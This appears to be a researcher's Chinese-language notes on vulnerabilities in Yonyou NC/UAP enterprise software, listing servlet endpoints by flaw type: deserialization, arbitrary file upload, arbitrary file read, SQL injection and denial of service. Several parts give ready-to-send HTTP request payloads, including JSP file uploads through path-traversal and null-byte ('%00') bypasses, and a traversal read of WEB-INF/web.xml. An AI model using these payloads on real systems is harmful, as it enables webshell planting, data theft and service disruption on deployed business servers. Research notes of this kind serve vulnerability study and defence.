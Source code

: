 反序列化
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserQueryServiceServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserSynchronizationServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserAuthenticationServlet
http://127.0.0.1:8081/service/~baseapp/nc.document.pub.fileSystem.servlet.UploadServlet	需要分析 看有没其他漏洞
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserQryServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserAuthenticationServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAContactsFuzzySearchServlet
http://127.0.0.1:8081/service/~baseapp/nc.message.bs.NCMessageServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.MxServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.monitor.MonitorServlet
http://127.0.0.1:8081/service/~aert/uap.pub.ae.model.handle.ModelHandleServlet
http://127.0.0.1:8081/service/~cc/nc.bs.logging.config.LoggingConfigServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DownloadServlet  需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~uapbs/uap.pub.dc.fileSystem.servlet.DownloadServlet			需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DeleteServlet
http://127.0.0.1:8081/servlet/~ic/uap.framework.rc.controller.ResourceManagerServlet

FileUploadServlet.class    	需要分析	看有没其他漏洞
FileReceiveServlet.class	需要分析	看有没其他漏洞
FileParserServlet.class		需要分析	看有没其他漏洞
FileManageServlet.class		需要分析	看有没其他漏洞

ContactsQueryServiceServlet.class  
ContactsFuzzySearchServlet.class
ConfigResourceServlet.class  逻辑漏洞-用户验证有缺陷
ActionHandlerServlet.class
任意文件上传
/com.yonyou.uap.mp.controller/UploadFileServlet.class
		POST /mp/login/../uploadControl/uploadFile HTTP/1.1
		Host: host
		Cache-Control: max-age=0
		Upgrade-Insecure-Requests: 1
		Accept-Encoding: gzip, deflate
		Accept-Language: zh-CN,zh;q=0.9
		Connection: close
		Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
		Content-Length: 314
		
		------WebKitFormBoundaryoDIsCqVMmF83ptmp
		Content-Disposition: form-data; name="file"; filename="test.jsp"
		Content-Type: application/octet-stream
		
		test content
		------WebKitFormBoundaryoDIsCqVMmF83ptmp
		Content-Disposition: form-data; name="submit"
		
		上传
		------WebKitFormBoundaryoDIsCqVMmF83ptmp
		
		http://127.0.0.1:8081/mp/uploadFileDir/test.jsp
		

SaveXmlToFileServlet.class   但是只能是.xml文件		可利用windows特性%00， 如果windows版本过高不可能成功
	POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=2/../../../../../../../../../../../1 HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
	Accept-Encoding: gzip, deflate
	Content-Length: 177
	
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	

SaveImageServlet.class       但是只能是.png文件
	POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp%00 HTTP/1.1
	Host: 127.0.0.1:8081
	Content-Type: application/octet-stream
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Length: 3
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	
	漏洞利用的是windows特性%00， 如果windows版本过高不可能成功
	
webrt/nc.uap.lfw.core.servlet.LfwFileUploadServlet   文件不知道为啥没传成功，估计要两个磁盘


任意文件读取	
RawHistoryFileServlet.class  uapmq hadoop

OutputImageServlet.class  抽象代码， 将输入流作为文件内容返回给客户端
	GET /portal/pt/servlet/outputImageServlet/doPost?filename=/../../../../2000000&imagetype=png&pageId=login HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
	Connection: close
	Cookie: JSESSIONID=695A5D8B1C41BA3F8D74495FC1D37B7E.server
	Accept-Encoding: gzip, deflate
	Content-Length: 6
	
	123123
	
http://127.0.0.1:8081/servlet/~maportal/;/com.yonyou.maportal.bs.padplugin.controller.DownloadServlet?filename=../../WEB-INF/web.xml

FindWebResourceServlet.class  不能../ 
	/NCFindWeb?service=IPreAlertConfigService&filename=
	
sql注入
MdxQueryServlet.class

MARosterPhotoServlet.class  已有
综合漏洞
ManagerServlet.class  不是用友的 是tomcat的




尚待分析
ResourceManagerServlet.class 反序列化
	
	
拒绝服务
upass/nc.search.ui.servlet.ClusterStateServlet?opt=test
	阻塞线程60秒
